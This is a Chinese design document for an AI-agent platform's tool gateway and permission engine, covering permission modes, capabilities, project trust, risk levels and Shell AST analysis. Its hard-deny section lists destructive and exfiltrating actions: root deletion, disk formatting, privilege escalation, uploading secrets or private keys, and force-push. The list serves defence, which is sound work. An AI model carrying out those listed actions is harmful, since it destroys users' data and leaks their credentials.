




# Apex—— Tool Gateway 与权限引擎详细设计

> 文档状态：架构基线（面向最终完整产品）  
> 版本：v1.0-draft  
> 适用范围：Apex Core、Tool Gateway、Permission Engine、Rules/Hook、MCP Client、Process Supervisor、Workspace、Credential Broker  
> 上游依据：`Apex—— 需求分析文档.md`、`Apex—— 系统总体架构设计.md`、`Apex—— 领域模型与事件规范.md`、`Apex—— API与实时事件协议设计.md`、`Apex—— SQLite数据模型与迁移设计.md`、`Apex—— Agent Runtime与DAG调度器详细设计.md`

---

## 0. 文档目的

本文定义 Apex 最终完整产品中所有工具副作用的唯一入口——**Tool Gateway**，以及围绕它工作的 **Capability、Project Trust、Permission、Risk、Write Claim、Pre/Post Rule Hook、Credential、Process/MCP Adapter 与 Operation Reconcile** 协议。

本文解决：

1. Provider、Agent、Skill、MCP、Plugin 和客户端提出的工具请求如何统一归一化；
2. 权限模式 `plan/ask/allow/bypass` 如何在不破坏安全硬规则的前提下工作；
3. Shell 命令如何进行 AST 分解、语义匹配与逐子命令审批；
4. 文件路径、敏感文件、越界访问和符号链接如何判定；
5. ToolCall 在执行前后如何接入 Write Claim、Snapshot、Rules 与审计；
6. MCP、本地进程、网络和不可逆外部操作如何取消、恢复和对账；
7. “允许一次”“始终允许”“拒绝”如何形成稳定、可撤销、可解释的 Permission 决策；
8. Secret 如何最小化注入，ToolResult 如何脱敏、截断并标记 taint；
9. 崩溃、超时、迟到结果和状态未知时如何避免重复副作用。

本文不把 Permission Engine 设计成简单的 yes/no 弹窗，也不把 Tool Gateway 设计成 Provider tool schema 的薄包装。它们共同构成 Apex 的副作用安全内核。

---

## 1. 核心架构结论

- **所有工具统一过 Gateway**：内置文件工具、Shell、Git、Task、Skill script、Hook、Plugin、MCP、Web/Network、Snapshot/Restore 都不得旁路。
- **先登记意图，再执行副作用**：Operation Journal、ToolCall、参数摘要、Actor、能力和策略引用必须先在事务中提交。
- **权限是多门交集**：Tool 执行必须同时通过身份、Capability、Project Trust、Spec Gate、硬规则、Permission、Write Claim、PreTool Rule 与运行环境限制。
- **硬拒绝不可覆盖**：`bypass`、用户“始终允许”、项目规则、Plugin 或 Agent 都不能绕过安全硬规则。
- **批准绑定规范化事实**：一次批准固定 Tool Revision、规范化参数摘要、路径范围、风险、Actor/Agent 和策略版本；参数变化立即失效。
- **Shell 以 AST 而非字符串判断**：复合命令、替换、管道、重定向和子 Shell 都必须展开为可评估执行单元；无法可靠解析时提高风险或拒绝。
- **权限与写互斥分离**：Permission 回答“能不能做”，Write Claim 回答“现在是否能与其他写者并发做”。
- **结果未知不能标成普通失败**：无法证明外部操作是否执行时进入 `reconcile_required/unknown`，禁止自动重试。
- **ToolResult 默认不可信**：MCP、Web、Shell、文件内容均携带 provenance/taint，不能成为用户批准或系统指令。
- **Adapter 无状态裁决权**：Adapter 只执行已授权请求并返回观察，不能保存 PermissionRule、改变 Trust 或宣布 Run/Node 完成。
- **公共 API 不暴露 ExecuteToolCall**：外部只能提交高层 Request/Decision；执行命令只接受受信 Runtime/Recovery capability。
- **跨平台执行采用明确方言**：Bash、PowerShell、cmd 和 direct-exec 使用不同解析器与风险模型，不用一个正则表达式假装通用。

---

## 2. 安全不变量

```text
INV-TG-001  every external or workspace side effect has a persisted ToolCall and Operation
INV-TG-002  no Adapter dispatch before authorization transaction commits
INV-TG-003  hard deny cannot be overridden
INV-TG-004  approval binds normalized argument digest and path scopes
INV-TG-005  changed arguments invalidate prior approval
INV-TG-006  child Agent cannot grant permission or trust
INV-TG-007  Write Claim is required for writes but is not permission
INV-TG-008  completed ToolCall is never reexecuted by Provider retry
INV-TG-009  unknown external effect is never blindly replayed
INV-TG-010  only qualified User principal can approve privileged requests
INV-TG-011  ToolResult cannot be interpreted as user/system authority
INV-TG-012  secrets are not persisted in ordinary arguments, events, logs or approval views
INV-TG-013  late result with stale fence cannot change authoritative state
INV-TG-014  permission decision is terminal and first valid CAS wins
INV-TG-015  postflight violations can block Run/Node completion even if tool succeeded
```

---

## 3. 组件拓扑

```text
Provider / Agent / Skill / Plugin / Client
                    │ RequestToolCall
                    ▼
┌──────────────────────── Tool Gateway ──────────────────────────┐
│ 1 Request Authenticator / Actor provenance                     │
│ 2 Tool Registry + exact ToolRevision                           │
│ 3 Schema Validator + Argument Canonicalizer                     │
│ 4 Shell/Path/Network Semantic Analyzer                          │
│ 5 Capability + Project Trust Gate                               │
│ 6 Hard Safety Policy                                            │
│ 7 Risk Engine                                                   │
│ 8 Permission Policy Evaluator                                   │
│ 9 Spec/Workflow/Write Claim Gate                                │
│10 PreTool Rules/Hooks                                           │
│11 Pre Snapshot + Credential Injection Plan                      │
│12 Operation intent + execution outbox                           │
└───────────────────────────┬─────────────────────────────────────┘
                            │ authorized execution envelope
              ┌─────────────▼─────────────┐
              │ Execution Supervisor       │
              ├─ Builtin File Adapter      │
              ├─ Shell/Process Adapter     │
              ├─ Git Adapter               │
              ├─ MCP Adapter               │
              ├─ Network/Web Adapter       │
              ├─ Task/Scheduler Adapter    │
              └─ Snapshot/Patch Adapter    │
              └─────────────┬─────────────┘
                            │ raw observation
┌───────────────────────────▼─────────────────────────────────────┐
│ Result Normalizer → Secret Redactor → Taint Classifier          │
│ → Post Snapshot → Changed Path Validator → PostTool Rules       │
│ → Result/Operation commit → Agent canonical ToolResult          │
└─────────────────────────────────────────────────────────────────┘
```

辅助组件：

- `CredentialBroker`：按授权执行信封临时注入 secret；
- `ClaimManager`：写路径互斥；
- `WorkspaceSnapshotService`：pre/post snapshot、diff、restore；
- `ProcessSupervisor`：跨平台进程树、输出和取消；
- `OperationReconciler`：崩溃后外部状态分类；
- `Audit/Projection`：审批、工具时间线和安全面板；
- `ToolCatalogPublisher`：向 Provider 发布当前可见工具 schema。

---

## 4. Tool 分类与注册表

### 4.1 Tool 类型

| 类型 | 示例 | 主要副作用 |
|---|---|---|
| Read-only builtin | Read、Glob、Grep、List | 数据暴露、资源消耗 |
| Workspace write | Write、Edit、ApplyPatch | 文件修改 |
| Shell/Process | Bash、PowerShell、DirectExec | 任意本地副作用 |
| Git | status、diff、commit、push | 工作区、索引、远端仓库 |
| Scheduler | Task、SpawnAgent | 新 Agent、预算和并发 |
| MCP | `mcp__server__tool` | 本地或远端未知副作用 |
| Network/Web | Fetch、Download、HTTP | 数据外发、远端修改 |
| Snapshot/Restore | Capture、Restore | 大范围工作区修改 |
| Rules/Verification | lint、test、checker | 进程执行、诊断 |
| Credential-aware | deploy、cloud CLI | 高价值外部资产 |

“只读”只表示不写项目文件，不表示无风险。读取 secret、向外部 Provider/MCP 发送内容、扫描超大目录都可能需要权限或限制。

### 4.2 ToolDefinition

```rust
pub struct ToolDefinition {
    pub tool_id: ToolId,
    pub canonical_name: ToolName,
    pub revision: ToolRevision,
    pub source: ToolSource,
    pub input_schema: JsonSchemaRef,
    pub output_schema: JsonSchemaRef,
    pub semantic_analyzer: AnalyzerKind,
    pub declared_effects: EffectDeclaration,
    pub required_capabilities: CapabilityExpression,
    pub risk_floor: RiskLevel,
    pub cancellation: CancellationSupport,
    pub idempotency: IdempotencyClass,
    pub reconcile: ReconcileCapability,
    pub secret_inputs: Vec<SecretInputSpec>,
    pub output_policy: OutputPolicy,
    pub adapter_ref: AdapterRef,
}
```

### 4.3 Tool Revision 固定

每次 ToolCall 固定：

- canonical tool name；
- schema version/digest；
- analyzer version；
- adapter version；
- risk policy revision；
- capability registry revision；
- Tool source（builtin/MCP/plugin/skill）；
- MCP server capability revision（如适用）。

运行中热更新工具不会改变已创建 ToolCall。新 Provider Turn 才能看到新 Tool Catalog Revision。

### 4.4 注册来源和优先级

工具名称不能被低信任来源覆盖。建议命名空间：

```text
builtin__read
builtin__write
builtin__shell
builtin__task
mcp__<server>__<tool>
plugin__<plugin>__<tool>
skill__<skill>__<entrypoint>
```

内置保留名禁止 MCP/Plugin 冒充。名称冲突产生 discovery diagnostic，不采用“最后加载覆盖”。

### 4.5 Catalog 发布

向模型发布的是调用时可见 Tool 的安全视图：

- 仅包含当前 Agent Capability Ceiling 内可请求的 Tool；
- Schema 中 secret 字段使用 credential reference，不暴露值；
- 描述不能包含来自不可信 MCP 的未净化系统指令；
- Catalog 有稳定排序和 digest；
- “可见”不等于“自动允许”，实际参数仍需逐次评估。

---

## 5. ToolCall 与 Operation 状态

### 5.1 规范 ToolCall 状态

领域模型为权威：

```text
requested
  → validating
  → awaiting_permission | denied
  → awaiting_claim
  → preflight
  → executing
  → postflight
  → succeeded | succeeded_with_violations | failed
任意外部执行相关状态 → interrupted | reconcile_required
非终局 → cancelled（仅当已确认未产生或已停止副作用）
```

### 5.2 Operation Journal 状态

```text
intent → leased → running → succeeded | failed | cancelled | interrupted | unknown
unknown → compensating → compensated
```

ToolCall 描述业务工具语义；Operation Journal 描述外部副作用的派发与恢复事实。二者不能合并。

### 5.3 状态对齐要求

现有 SQLite 示例对 ToolCall 使用了简化状态 `evaluating/approved/running/unknown`，PermissionRequest 使用 `approved`，而领域规范使用 `validating/preflight/executing/reconcile_required` 与 `allowed`。正式实现前应更新 CHECK constraint 或建立明确映射：

| 领域状态 | 可接受物理映射 |
|---|---|
| validating | evaluating |
| allowed 后待执行 | approved，但 Decision 仍记录 allowed/allow_once 等语义 |
| preflight/executing/postflight | 独立 phase 字段；不可都丢成 running 而失去恢复边界 |
| reconcile_required | unknown + reconcile phase |
| succeeded_with_violations | 必须新增或通过 result_status 明确表达 |

推荐直接扩展物理枚举和 `phase` 字段，避免恢复器根据日志猜测崩溃发生在哪一步。

### 5.4 一次执行身份

```text
tool_call_id      逻辑工具调用
operation_id      外部副作用身份
execution_attempt Adapter 派发尝试
provider_call_id  模型侧关联，仅用于映射
permission_id     一次审批请求
```

同一 ToolCall 可以因安全的 Adapter transport retry 有多个 execution attempt，但只能有一个权威结果。只有证明未启动或 Adapter 支持相同幂等键时才能重派。

---

## 6. 请求归一化流水线

```text
RequestToolCall
  → authenticate command Actor
  → verify Run/Turn/Agent/Lease/Fence
  → resolve exact ToolRevision
  → validate JSON schema and size
  → resolve references/credential placeholders
  → canonicalize arguments
  → analyze shell/path/network/resource effects
  → compute normalized_argument_digest
  → compute required capabilities and risk
  → evaluate trust/hard policy/permission
  → acquire claim or wait
  → run preflight hooks/rules
  → capture pre snapshot
  → persist authorized execution intent
  → dispatch adapter outside transaction
```

### 6.1 请求信封

```rust
pub struct ToolRequestEnvelope {
    pub tool_call_id: ToolCallId,
    pub operation_id: OperationId,
    pub project_id: ProjectId,
    pub session_id: SessionId,
    pub run_id: RunId,
    pub turn_id: TurnId,
    pub agent_id: AgentId,
    pub actor: ActorRef,
    pub tool: ToolRevisionRef,
    pub raw_arguments: ContentRef,
    pub capability_snapshot: CapabilitySnapshotRef,
    pub spec_binding: SpecBinding,
    pub lease: ExecutionLeaseRef,
    pub correlation_id: CorrelationId,
}
```

### 6.2 参数规范化

参数摘要必须基于 canonical representation，而不是原始 JSON 字节：

- JSON object key 稳定排序；
- 数字、布尔、null 使用规范编码；
- 路径转 canonical project path；
- URL 规范化 scheme/host/default port，但不改变有语义的 query；
- Shell 保存 AST 规范形式和原始显示引用；
- 环境变量拆分为公开名、secret ref 和允许值摘要；
- 默认参数显式填充；
- Tool schema union 分支固定；
- 不把 secret 明文纳入普通 digest 输入，改用受保护 secret-version token。

```text
argument_digest = SHA-256(
  tool_revision
  + canonical_arguments_without_secret_values
  + secret_version_refs
  + canonical_path_scopes
  + analyzer_revision
)
```

### 6.3 验证失败

Schema、路径、AST 或引用解析失败时 ToolCall 进入 `denied` 或确定性 `failed`，不得创建“宽泛默认权限”后尝试执行。返回 Agent 的错误必须结构化，不能泄露 secret 或系统路径。

---

## 7. Capability 与 Actor 授权

### 7.1 Capability 命名

建议使用版本化、动作导向 capability：

```text
project.read.v1
project.write.v1
path.read_sensitive.v1
path.write_outside_root.v1
shell.execute.v1
shell.network.v1
process.spawn.v1
git.write_index.v1
git.push.v1
mcp.invoke.v1
network.fetch.v1
credential.use.v1
agent.spawn.v1
snapshot.restore.v1
tool.invoke.v1
permission.decide.v1
permission.rule.manage.v1
project.trust.manage.v1
```

### 7.2 有效能力

```text
effective_capabilities
  = actor_capabilities
  ∩ agent_capability_ceiling
  ∩ profile_capabilities
  ∩ project_policy
  ∩ trust_policy
  ∩ runtime_environment
  ∩ tool_source_policy
```

Permission Approval 不能增加不存在的 capability。若 Agent 不具备 `git.push.v1`，即使用户批准当前弹窗，Core 也应拒绝或要求通过一个具有该能力的用户高层命令重新发起。

### 7.3 Actor provenance

请求必须区分：

- `User`：经过本机/远程认证的真实用户主体；
- `Agent`：模型执行主体；
- `RuntimeWorker`：仅能提交匹配 Lease 的内部结果；
- `Scheduler`：只能发起 Task/Claim 等受限命令；
- `Recovery`：只能执行对账、Fence、清理和补录；
- `Hook/Plugin`：Manifest 明确声明的受限能力；
- `McpServer`：外部工具提供者，不具备 Apex 权限决定能力。

普通客户端不能伪造 `causation_event_id`、Agent、Recovery 或 Worker Actor。

### 7.4 审批资格

只有同时满足以下条件的 User principal 可决定 Permission：

- 对 Project 具有所需角色；
- 认证上下文满足风险等级要求；
- 具备 `permission.decide.v1`；
- 对 critical 操作满足二次确认或重新认证；
- 决定绑定当前 permission version 和 argument digest。

Agent、Tool output、Hook、Plugin 和 MCP 不能点击或模拟批准。

---

## 8. Project Trust

### 8.1 Trust 状态

```text
untrusted | restricted | trusted
```

- `untrusted`：仅允许安全元数据和低风险读取；脚本、写、敏感读取、远程 MCP 默认拒绝或要求先授信；
- `restricted`：只允许显式白名单能力；
- `trusted`：可依据 Permission Rule 自动化，但硬拒绝仍有效。

### 8.2 Trust 不是 PermissionRule

Project Trust 回答“是否允许在该项目启用某类能力”，PermissionRule 回答“某类具体请求是否自动允许/拒绝/询问”。不能用一条 `allow shell *` 规则把 untrusted 项目变成 trusted。

### 8.3 Trust 变更

Trust 只能由 User Command 改变，记录：

- project root identity；
- worktree identity；
- 用户确认的风险提示版本；
- actor/client/auth context；
- 原状态、新状态；
- policy revision；
- 时间和原因。

Trust 降级/撤销后：

1. 阻止新高风险 ToolCall；
2. 重新评估 awaiting Permission；
3. 向 active Tool Operation 发送策略变更信号；
4. 已执行副作用不回滚；
5. 可安全取消的未开始 Operation 取消；
6. 已运行 Operation 依据风险进入继续对账或立即取消；
7. Agent Capability Ceiling 重新收紧。

### 8.4 Root 身份防替换

Project Trust 绑定规范化根路径和文件系统身份。路径相同但目录被替换、网络挂载变化、symlink 目标变化时应降级为需要重新确认，防止“受信路径替换攻击”。

---

## 9. 权限模式

### 9.1 模式定义

| 模式 | 自动放行 | 询问 | 说明 |
|---|---|---|---|
| `plan` | 普通非敏感读取 | 任何写、Shell、外发 | 面向规划阶段；Spec Gate 仍约束 |
| `ask` | 普通非敏感读取 | 写、Shell、MCP 副作用、敏感读 | 每次询问，显式 deny 直接拒绝 |
| `allow` | 命中有效 allow rule 的操作 | 未命中或 ask rule | 默认自动化模式 |
| `bypass` | 非硬拒绝且 capability/trust 合法的非 critical 操作 | critical 必须一次性强确认 | 仅 trusted 项目、用户显式短期启用 |

### 9.2 bypass 的严格语义

`bypass` 不是关闭安全系统。它仍必须通过：

- Actor authentication；
- Capability Ceiling；
- Project Trust；
- Project Root boundary；
- hard deny；
- Spec/Workflow Gate；
- Write Claim；
- secret/data egress policy；
- pre/post Rule；
- Operation Journal；
- cancellation/reconcile。

默认建议 bypass 具有会话级、短期 TTL，并在 UI 持续显示高可见状态。项目配置文件不能自行开启 bypass。

### 9.3 模式切换

模式切换是 User Command，使用 CAS，记录来源和 TTL。切换只影响尚未做出终局 Permission 决定的请求；不能追溯改变历史 ToolCall。

---

## 10. Permission Policy Evaluator

### 10.1 确定性求值顺序

```text
1 invalid identity / stale lease                 → DENY
2 tool/schema unavailable                        → DENY
3 missing capability                             → DENY
4 untrusted/restricted project gate              → DENY or TRUST_REQUIRED
5 builtin hard deny                              → DENY_HARD
6 sensitive data / egress hard policy            → DENY_HARD or ASK
7 explicit scoped deny rules                     → DENY
8 spec/workflow phase restriction                → DENY or BLOCK
9 permission-mode branch:
    plan   → safe nonsensitive read ALLOW; mutation/shell/egress ASK
    ask    → safe nonsensitive read ALLOW; mutation/shell/sensitive ASK
    allow  → matching ASK rule ASK; exact valid ALLOW rule ALLOW; otherwise ASK
    bypass → CRITICAL ASK with reauth; other non-hard-denied requests ALLOW
10 claim/resource conflict                       → WAIT, not approval
11 preflight hook/rule                            → ALLOW/DENY/BLOCK/ASK
```

Resource conflict 不能伪装成权限弹窗。等待 Write Claim、Provider quota、MCP reconnect 应产生各自状态。

**关于"硬拒绝优先"**：本文 §1 与 §10.3 声明硬拒绝优先级最高，而上表把 `builtin hard deny` 列在第 5 位，二者不矛盾。第 1–4 步是准入前置检查，其判定结果只有 DENY 或 TRUST_REQUIRED，**不存在放行分支**；因此任何请求要么在前 4 步被拒，要么带着完整身份、schema、capability 和信任上下文进入第 5 步接受硬拒绝检查。没有任何路径能绕过硬拒绝而被放行。把前置检查排在前面，是为了让硬拒绝规则能在已知 Actor 与已解析参数的前提下求值，从而给出准确的拒绝理由。

> ADR-0012（跨文档一致性审查）：系统总体架构 §7.2 原以 5 步描述该顺序且把硬拒绝列为第 1 位。现以本节 11 步为权威并回写架构文档，同时补上此等价性说明，消除"§10.1 与 §10.3 自相矛盾"的读感。

### 10.2 PolicyDecision

```rust
pub enum PolicyDecision {
    Allow(AuthorizationGrant),
    Ask(PermissionRequestDraft),
    Deny(Denial),
    Block(BlockReason),
    Wait(ResourceWait),
}
```

每个结果包含 explanation tree：命中的规则、未满足的 capability、trust 状态、风险因素和允许的下一动作。

### 10.3 规则优先级

规则来源从不可覆盖到可覆盖：

```text
Builtin hard safety deny
Organization/device policy（未来）
User global deny
Project deny
Session deny
User/Project/Session ask
Narrow allow
Mode fallback
```

原则：deny 优先于 allow；越具体的 allow 不能覆盖上层 hard deny；同层冲突按 effect precedence + priority + stable rule ID，不能依赖数据库返回顺序。

### 10.4 PermissionRule

```rust
pub struct PermissionRule {
    pub rule_id: PermissionRuleId,
    pub revision: u64,
    pub scope: RuleScope,
    pub effect: AllowDenyAsk,
    pub tool_matcher: ToolMatcher,
    pub semantic_matcher: SemanticMatcher,
    pub path_matcher: Vec<PathMatcher>,
    pub actor_constraints: ActorConstraints,
    pub risk_ceiling: Option<RiskLevel>,
    pub project_identity: Option<ProjectIdentity>,
    pub expires_at: Option<Timestamp>,
    pub source: RuleSource,
    pub enabled: bool,
}
```

### 10.5 “始终允许”

用户在一次审批中选择保存规则时，必须同时提交：

1. 当前 PermissionDecision；
2. 候选 Rule Input；
3. 服务端重新生成的语义 matcher；
4. scope 和 TTL；
5. 对扩大范围的确认摘要。

当前请求的 Decision 和新 Rule 是两个事实。规则创建失败不能抹掉已经成功提交的一次性 Decision；反之亦然，最好在同一事务中分别返回结果。

### 10.6 规则最小化

默认建议从具体到宽泛：

```text
allow once
allow for current exact path/tool semantic
allow for session
allow for project with bounded semantic matcher
```

不提供默认 `shell *`、`mcp *`、`write **` 的一键永久授权。Critical 操作不得生成永久 allow rule。

### 10.7 撤销与版本

撤销 PermissionRule 不修改旧记录，而是创建 revision/禁用事实。正在执行的已授权 Operation 不自动变成“从未授权”；对尚未 dispatch 的 ToolCall 重新求值。

---

## 11. PermissionRequest 与审批体验

### 11.1 固定字段

一次 PermissionRequest 固定：

- permission_request_id；
- tool_call_id/operation_id；
- exact ToolRevision；
- normalized argument digest；
- canonical path/resource scopes；
- risk level/factors；
- requesting Actor/Agent/Run；
- capability snapshot；
- trust/policy/rule revisions；
- approval summary；
- expires_at；
- allowed decisions。

### 11.2 状态

```text
pending → allowed | denied | expired | cancelled
```

现有 SQLite 示例中的 `approved/superseded` 应与领域语义对齐：`allowed` 是终局批准；若参数变化，应取消旧请求并创建新请求，或把 superseded 作为原因而不是允许重复终态。

### 11.3 决策 CAS

```sql
UPDATE permission_requests
SET state = :terminal, decided_at_us = :now, version = version + 1
WHERE permission_request_id = :id
  AND state = 'pending'
  AND version = :expected_version;
```

首个合法决定获胜。后续客户端获得 `PERMISSION_ALREADY_DECIDED` 和安全的当前状态，不覆盖决定。

### 11.4 批准摘要

`approval_summary` 由 Core 生成，不由 UI 从原始 arguments 猜测。内容包括：

- 将执行什么；
- 对哪些路径/资源；
- 是否读取或外发敏感内容；
- 是否修改 Git/远端/系统；
- 分解后的 Shell 子命令；
- 风险等级与原因；
- 是否可取消、可对账、可回滚；
- “始终允许”会覆盖的语义范围。

Secret、完整 token、Authorization header、私钥内容和不必要的用户数据必须脱敏。

### 11.5 过期和取消

- timeout 产生 `expired`，不推断 `denied`；
- Run/Turn/ToolCall 取消使 pending request 变为 `cancelled`；
- Agent/Spec/Trust/参数版本变化使旧请求失效并重新求值；
- pending approval 强一致查询直接读事实表；
- Runtime 等待时释放 Provider slot，不占用无关进程资源。

---

## 12. 风险引擎

### 12.1 风险等级

```text
LOW       普通项目内读取、无敏感信息
MEDIUM    有界项目内写、可恢复变更、受控测试
HIGH      Shell、批量删除、Git index、网络外发、敏感读取
CRITICAL  系统级修改、不可逆远端操作、凭据/生产环境、高破坏性命令
```

RiskLevel 影响审批、认证强度、规则可保存性、Snapshot、隔离和取消策略，但不直接替代硬拒绝。

### 12.2 风险因素

```rust
pub struct RiskAssessment {
    pub level: RiskLevel,
    pub factors: Vec<RiskFactor>,
    pub affected_scopes: Vec<ResourceScope>,
    pub reversibility: Reversibility,
    pub data_classification: DataClassification,
    pub egress: Option<EgressAssessment>,
    pub parser_confidence: Confidence,
    pub required_confirmation: ConfirmationMode,
    pub policy_revision: PolicyRevision,
}
```

因素包括：

- 写入/删除数量和路径宽度；
- Project Root 外路径；
- symlink/junction；
- 敏感文件；
- Shell 动态性；
- privilege escalation；
- 网络目的地；
- 凭据使用；
- Git force/history rewrite；
- 生产/云资源；
- MCP 声明与历史行为；
- 是否幂等、可取消、可对账；
- 当前 Project Trust 和 Agent 来源；
- Tool 实际变更与声明偏差历史。

### 12.3 Hard Deny

内置 hard deny 以版本化策略表达，不能仅散落在代码 if 语句。示例类别：

- 删除文件系统根、系统目录或 Apex 数据根；
- 明确的磁盘格式化/分区破坏；
- 绕过 Sandbox/权限的提权链；
- 向未授权目标上传 secret/private key；
- 关闭审计、修改 Apex 安全数据库；
- Agent 自行更改 Project Trust 或 Permission Rule；
- 未经特定产品流程执行生产环境破坏性操作。

某些传统“高危命令”如 `git push --force` 应进入不可被“始终允许”规则或 bypass 自动放行的 CRITICAL 拦截路径，要求一次性强确认和可选重新认证；根目录删除则应 hard deny。策略应允许平台细分，避免一个模糊名单同时过严和漏判。

---

## 13. Shell 命令分析

### 13.1 明确 Shell 方言

ToolRequest 必须声明：

```text
shell.bash
shell.zsh（若支持）
shell.powershell
shell.cmd
process.exec（argv direct execution）
```

禁止根据命令字符串“猜测”方言后静默执行。`process.exec` 不经过 shell 展开，通常比拼接 Shell 字符串更安全，应优先用于内部工具。

### 13.2 解析器

- Bash/Zsh：tree-sitter grammar + Apex semantic walker；
- PowerShell：使用 PowerShell Parser AST 或等价的版本化解析服务，不能用 Bash parser；
- cmd.exe：专用 tokenizer/grammar，无法可靠分析的复杂模式提升为 CRITICAL/拒绝；
- direct exec：验证 executable、argv、cwd、env，无 Shell AST。

解析器版本参与 argument digest。Parser error、unsupported syntax 或 AST/原文范围不一致时禁止低风险自动放行。

### 13.3 分解执行单元

必须遍历：

- pipeline；
- `&&`、`||`、`;`、换行；
- subshell/group；
- command substitution `$(...)`、反引号；
- process substitution；
- redirection 和 here document；
- environment assignment；
- function/script invocation；
